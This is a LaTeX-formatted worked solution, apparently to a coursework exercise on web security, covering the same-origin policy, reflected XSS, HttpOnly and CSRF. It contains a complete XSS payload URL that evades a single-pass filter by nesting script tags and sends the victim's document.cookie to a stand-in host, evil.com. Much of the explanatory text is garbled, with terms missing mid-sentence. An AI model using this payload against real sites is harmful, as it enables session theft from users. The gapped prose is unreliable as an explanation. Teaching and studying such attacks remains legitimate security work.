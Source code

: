\begin{templatebox}{8A --- SOP/Cookie Matrix, Filter-Evasion XSS, \texttt{HttpOnly} Action Forgery, and POST CSRF}
\medskip
\textbf{Procedural Solution Execution:}
\begin{itemize}
  \item \textbf{Step 4 (SOP \& Cookie Scope Verification --- Task a):}
  \item \textbf{Steps 1--3 (Reflected XSS with Single-Pass Filter Evasion --- Task b):}
  Goal is cookie theft via Reflected XSS on . To bypass the single-pass removal of  and , nest the tags as  and . After the server strips the inner substring once, the outer halves join into valid  tags:
  \begin{codeblock}
https://www.bank.se/search?q=<scr<script>ipt>fetch("https://evil.com/log?c="+document.cookie)</scr</script>ipt>
  \end{codeblock}
  When the victim clicks this link, the reconstructed script executes inside $\mathrm{Origin}=(\texttt{https}, \texttt{www.bank.se}, 443)$, reads  (), and sends it to .
  \item \textbf{Steps 2--3 ( Constraint, Same-Origin XSS Action \& POST CSRF --- Task c):}
  With  enabled, JS cannot read  via , so exfiltrating the token in (b) fails. However, the browser still attaches  to HTTP requests to :
\end{itemize}
\end{templatebox}
